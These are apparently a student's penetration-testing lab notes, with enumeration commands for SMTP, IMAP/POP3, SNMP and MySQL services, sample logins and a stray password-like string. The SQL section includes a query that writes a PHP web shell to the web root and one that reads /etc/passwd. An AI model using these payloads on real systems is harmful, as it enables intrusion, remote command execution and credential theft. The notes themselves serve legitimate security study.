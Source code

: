 ## SMTP

- telnet 10.129.14.128 25
- sudo nmap 10.129.14.128 -sC -sV -p25
- sudo nmap 10.129.14.128 -p25 --script smtp-open-relay -v
- smtp-user-enum -M VRFY -U user.txt -t 10.10.10.10 -w 15

## IMAP/POP3

- 110, 143, 993, and 995
- sudo nmap 10.129.14.128 -sV -p110,143,993,995 -sC
- curl -k 'imaps://10.129.14.128' --user user:p4ssw0rd
- curl -k 'imaps://10.129.14.128' --user cry0l1t3:1234 -v
- openssl s_client -connect 10.129.14.128:pop3s
- openssl s_client -connect 10.129.14.128:imaps
- [https://donsutherland.org/crib/imap](https://donsutherland.org/crib/imap)
- [https://www.mailenable.com/kb/content/article.asp?ID=ME020711](https://www.mailenable.com/kb/content/article.asp?ID=ME020711)
- A1 LOGIN user password
- A1 LIST “” *
- A1 SELECT <>
- 1 fetch 1:* all
- 1 fetch 1 (body[])
- NMds732Js2761

## SNMP

- 161,162
- snmpwalk -v2c -c public 10.129.14.128
- community strings - hostname of ip
- onesixtyone -c /opt/useful/SecLists/Discovery/SNMP/snmp.txt 10.129.14.128
- braa <community string>@<IP>:.1.3.6.*

## SQL

- sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*
- mysql -u root -h 10.129.14.132
- mysql -u root -pP4SSw0rd -h 10.129.14.128
- show databases;
- select version();
- use mysql;
- show tables;
- use sys;
- show tables;
- select host, unique_users from host_summary;
- show columns from <table>;
- select * from <table>;
- select * from <table> where <column> = "<string>";
- mysql -u username -pPassword123 -h 10.129.20.13
- C:\htb> mysql.exe -u username -pPassword123 -h 10.129.20.13
- Enumeration
    - nmap -Pn -sV -sC -p1433 10.10.10.125
- MySQL - Write Local File
    - SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
    - show variables like "secure_file_priv";
- Read Local Files
    - select LOAD_FILE("/etc/passwd");
